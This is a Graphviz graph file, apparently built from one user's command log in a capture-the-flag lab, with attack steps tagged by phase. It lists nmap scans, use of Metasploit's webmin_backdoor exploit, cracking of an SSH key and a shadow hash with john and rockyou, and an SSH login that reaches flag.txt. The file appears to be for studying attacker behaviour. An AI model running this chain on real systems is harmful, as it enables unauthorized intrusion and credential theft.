// creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap -A -p 1-65536 A0 A1 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 V0 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 V0 "]
	4 [label="msfconsole A2 M2 "]
	5 [label="search webmin A3 M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor A8 M8 "]
	7 [label="options U"]
	8 [label="set RHOST 172.18.1.5 A6 "]
	9 [label="set RHOSTS 172.18.1.5 A6 M6 "]
	10 [label="ip a U"]
	11 [label="set LHOST 10.1.135.83 V6 "]
	12 [label="nmap -A 10.1.17.4 A0 A1 "]
	13 [label="vim key U"]
	14 [label="ssh2john A14 A16 "]
	15 [label="john key A14 "]
	16 [label="cat key  A1 A9 A11 A12 A17 "]
	17 [label="locate *2john A1 A9 A10 A11 A12 A14 A17 "]
	18 [label="/usr/share/john/ssh2john.py key > key.hash A14 A16 "]
	19 [label="john key.hash A14 "]
	20 [label="cat key.hash A1 A9 A11 A12 A17 "]
	21 [label="run V8 "]
	22 [label="sessions -l U"]
	23 [label="sessions -h U"]
	24 [label="sessions -u 2 U"]
	25 [label="sessions -l U"]
	26 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	27 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	28 [label="sessions -i 3 U"]
	29 [label="run V8 "]
	30 [label="sessions -l U"]
	31 [label="sessions -U 4 U"]
	32 [label="sessions -u 4 U"]
	33 [label="ls A10 "]
	34 [label="./ssh2john.py key > key2.hash A14 A16 "]
	35 [label="john key2.hash A14 "]
	36 [label="locate *ockyou* A1 A9 A10 A11 A12 A17 "]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash A14 M14 "]
	38 [label="ssh -h A16 "]
	39 [label="ssh -i key eve@10.1.17.4 A16 M16 "]
	40 [label="chmod 600 key A15 M15 "]
	41 [label="ssh -i key eve@10.1.17.4 V16 "]
	42 [label="ssh -i key eve@10.1.17.4 V16 "]
	43 [label="ls A10 "]
	44 [label="cd top-secret/ U"]
	45 [label="ls A10 "]
	46 [label="cat flag.txt A17 M17 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
